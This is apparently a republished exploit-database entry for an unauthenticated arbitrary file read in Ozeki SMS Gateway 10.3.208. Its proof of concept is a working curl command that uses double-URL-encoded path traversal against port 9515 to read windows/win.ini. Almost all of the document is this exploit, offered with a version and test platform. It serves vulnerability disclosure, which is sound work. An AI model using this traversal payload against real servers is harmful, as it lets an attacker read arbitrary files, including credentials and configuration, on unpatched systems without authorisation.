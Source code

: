 ```yaml
---
layout: post
title: "Ozeki SMS Gateway 10.3.208 - Arbitrary File Read"
date: 2024-05-25
category: exploit
---
```


# Exploit Title: Ozeki 10 SMS Gateway 10.3.208 - Arbitrary File Read (Unauthenticated)
# Date: 01.08.2023
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://ozeki-sms-gateway.com
# Software Link:
https://ozeki-sms-gateway.com/attachments/702/installwindows_1689352737_OzekiSMSGateway_10.3.208.zip
# Version: 10.3.208
# Tested on: Windows 10



################### Arbitrary File Read PoC ###################

curl https://localhost:9515/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/win.ini

################### Arbitrary File Read PoC ###################
            

